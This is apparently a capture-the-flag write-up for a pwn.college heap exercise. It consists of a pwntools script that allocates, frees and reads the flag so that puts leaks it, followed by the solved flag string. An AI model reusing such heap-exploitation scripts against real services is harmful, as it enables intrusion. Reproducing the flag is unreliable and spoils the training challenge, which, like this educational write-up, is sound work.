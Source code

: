 ```python


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def malloc(size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Size: ", str(size))


def free():
    target.sendlineafter(b": ", b"free")


def puts():
    target.sendlineafter(b": ", b"puts")


def read_flag():
    target.sendlineafter(b": ", b"read_flag")


def quit():
    target.sendlineafter(b": ", b"quit")


def main():
    launch()

    malloc(330)
    free()
    read_flag()
    puts()
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`pwn.college{8_UCfYUIGnvHU86NU1Qe-H6dK1o.0VM3MDL5cTNxgzW}`]
